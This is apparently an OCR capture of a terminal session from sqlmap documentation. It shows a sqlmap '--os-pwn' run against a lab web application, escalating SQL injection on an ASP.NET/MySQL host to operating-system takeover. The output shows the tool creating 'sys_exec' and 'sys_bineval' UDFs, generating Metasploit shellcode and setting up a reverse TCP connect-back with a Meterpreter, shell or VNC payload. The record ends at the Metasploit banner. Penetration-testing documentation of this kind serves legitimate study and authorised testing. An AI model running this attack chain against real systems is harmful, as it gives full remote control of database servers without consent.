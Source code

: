 	$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit
	
	[...]
	[hh:mm:31] [INFO] the back-end DBMS is MySQL
	web server operating system: Windows 2003
	web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
	back-end DBMS: MySQL 5.0
	[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
	[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
	how do you want to establish the tunnel?
	[1] TCP: Metasploit Framework (default)
	[2] ICMP: icmpsh - ICMP tunneling
	> 
	[hh:mm:32] [INFO] testing if current user is DBA
	[hh:mm:32] [INFO] fetching current user
	what is the back-end database management system architecture?
	[1] 32-bit (default)
	[2] 64-bit
	> 
	[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
	[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
	[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
	[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
	[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
	[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
	how do you want to execute the Metasploit shellcode on the back-end database underlying 
	operating system?
	[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
	[2] Stand-alone payload stager (file system way)
	> 
	[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
	which connection type do you want to use?
	[1] Reverse TCP: Connect back from the database host to this machine (default)
	[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
	between the specified and 65535
	[3] Bind TCP: Listen on the database host for a connection
	> 
	which is the local address? [192.168.136.1] 
	which local port number do you want to use? [60641] 
	which payload do you want to use?
	[1] Meterpreter (default)
	[2] Shell
	[3] VNC
	> 
	[hh:mm:40] [INFO] creation in progress ... done
	[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..
	
	                                _
	                                | |      o
	_  _  _    _ _|_  __,   ,    _  | |  __    _|_
	/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
	|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
		                    /|
		                    \|

